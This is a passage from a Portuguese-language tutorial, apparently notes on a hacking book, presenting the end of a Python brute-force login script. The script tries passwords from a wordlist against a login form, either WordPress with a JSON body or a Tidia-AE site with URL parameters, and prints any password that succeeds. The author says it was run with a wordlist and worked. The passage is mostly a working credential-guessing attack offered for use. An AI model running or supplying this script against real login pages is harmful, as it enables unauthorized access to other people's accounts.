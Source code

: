 ```py
                                            # mas eles devem obedecer o forms de request
        
        # Usado para WP. Para Tidia-AE, usarei o outro
        if type == 'JSON':
            while not passwords.empty() and not self.found:
                time.sleep(5)
                pw = passwords.get()
                print(f'Tentando nome de usuario/senha {self.username}/{pw:<10}')   # Print da tentativa
                params['pw'] = pw
            
                resp1 = session.post(self.url, data=params) # coloca o JSON na request e faz-la
                if SUCCESS in resp1.content.decode():       # se acha a string de sucesso na resposta, printa a senha e para
                    self.found = True
                    print(f'\n Ataque de força bruta bem sucedido')
                    print("Nome de usuario eh: %s" % self.username)
                    print("Senha eh: %s\n" % pw)
                    print('Concluido: limpando as outras threads...')
    
        if type == 'URL':
            while not passwords.empty() and not self.found:
                # Mesmo sentido. No caso foi usado para o Tidia-ae e tem os campos eid (user) pw (password) e submit ('Login')
                time.sleep(5)
                pw = passwords.get()
                params['pw'] = pw
                params['submit'] = 'Login'
                print(f'Tentando nome de usuario/senha {self.username}/{pw:<10}')   
                in_link_url = f"{self.url}?{'&'.join(f'{k}={v}' for k, v in params.items())}"   # Gera a URL customizada com os parametros
                resp1 = session.post(in_link_url)

                if SUCCESS in resp1.content.decode():
                    self.found = True
                    print(f'\n Ataque de força bruta bem sucedido')
                    print("Nome de usuario eh: %s" % self.username)
                    print("Senha eh: %s\n" % pw)
                    print('Concluido: limpando as outras threads...')
            
if __name__ == '__main__':
    words = get_words()
    b = Bruter('user', TARGET)
    b.run_bruteforce(words, 'URL')
```

Pronto! Agora você tem um código de brute-force eficiente!

### Explorando o código

O código acima está diferente do livro pois preferi usá-lo em um site que não é WordPress e que não recebe um JSON. Contudo, foi possível modificá-lo de uma forma bacana e agora ficará mais fácil para as próximas vezes. Ele foi estado com a word list e deu certo!

**OBSERVAÇÃO**: É importante entender como o site recebe e responde as request de login para executar o código!
